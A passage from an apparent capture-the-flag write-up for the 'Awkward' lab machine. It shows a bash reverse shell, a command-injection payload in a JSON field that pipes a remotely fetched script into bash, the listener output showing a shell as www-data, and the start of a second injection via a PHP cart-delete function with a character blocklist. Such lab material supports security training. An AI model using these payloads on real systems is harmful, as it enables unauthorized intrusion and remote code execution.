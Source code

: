 To get a shell, I’ll create a simple [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw) in a file called `shell`:

    
    
    #!/bin/bash
    
    bash -i >& /dev/tcp/10.10.14.6/443 0>&1
    

Now I’ll `curl` that into `bash` on Awkward:

    
    
    oxdf@hacky$ curl http:/hat-valley.htb/api/submit-leave -H "Content-type: application/json" -d '{"reason": "$(curl http://10.10.14.6/shell|/bin/bash)", "start": "today", "end": "tomorrow"}' -b "token=$token"
    

This time it just hangs. At `nc`, there’s a shell as www-data:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.185 54006
    bash: cannot set terminal process group (64281): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@awkward:~/hat-valley.htb$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

### Unpatch RCE as www-data

#### Identify Parameter Injection

There’s another unpatched RCE as www-data via the store website (thanks to
Ippsec for finding this one). This one comes a bit later in the box, and comes
from a shell as bean.

As bean, I’m able to see the store source, and how the site is using files
instead of a database. The action to delete an item from a cart (which is a
file) uses `sed` in a `system` call:

    
    
    //delete from cart                                                                                       
    if ($_SERVER['REQUEST_METHOD'] === 'POST' && $_POST['action'] === 'delete_item' && $_POST['item'] && $_POST['user']) {
        $item_id = $_POST['item'];
        $user_id = $_POST['user'];                                                                                                                                                                                         $bad_chars = array(";","&","|",">","<","*","?","`","$","(",")","{","}","[","]","!","#"); //no hacking allowed!!
                                                        
        foreach($bad_chars as $bad) {
            if(strpos($item_id, $bad) !== FALSE) {
                echo "Bad character detected!";
                exit;
            }
        }
                                                        